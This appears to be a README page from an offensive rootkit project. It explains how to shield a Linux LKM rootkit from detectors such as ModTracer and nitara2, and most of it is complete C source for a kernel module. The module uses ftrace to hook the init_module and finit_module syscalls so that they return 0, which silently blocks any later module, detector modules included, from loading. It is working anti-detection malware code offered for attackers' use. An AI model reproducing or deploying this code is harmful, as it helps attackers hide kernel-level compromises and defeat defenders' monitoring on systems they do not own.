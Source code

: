 Protecting your LKM rootkit is essential against LKM rootkit hunters, such as 'ModTracer' (which I wrote), and also 'nitara2', which is a great LKM rootkit detector.

Protecting an LKM rootkit against this is actually very easy; you just need to hook the finit_module and init_module functions.

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include "ftrace_helper.h"

MODULE_LICENSE("GPL");
MODULE_AUTHOR("matheuzsec");
MODULE_DESCRIPTION("Hooking init_module and finit_module");
MODULE_VERSION("1.0");

static asmlinkage long (*hooked_init_module)(struct file *file, const char *uargs, unsigned long flags);
static asmlinkage long (*hooked_finit_module)(struct file *file, const char *uargs, unsigned long flags);

static asmlinkage long hook_init_module(struct file *file, const char *uargs, unsigned long flags) {
    return 0;
}

static asmlinkage long hook_finit_module(struct file *file, const char *uargs, unsigned long flags) {
    return 0;
}

static struct ftrace_hook hooks[] = {
    HOOK("__x64_sys_init_module", hook_init_module, &hooked_init_module),
    HOOK("__x64_sys_finit_module", hook_finit_module, &hooked_finit_module),
};

static int __init insmod_init(void) {
    int err;

    err = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
    if (err) {
        return err;
    }

    return 0;
}

static void __exit insmod_exit(void) {
    fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
}

module_init(insmod_init);
module_exit(insmod_exit);
```

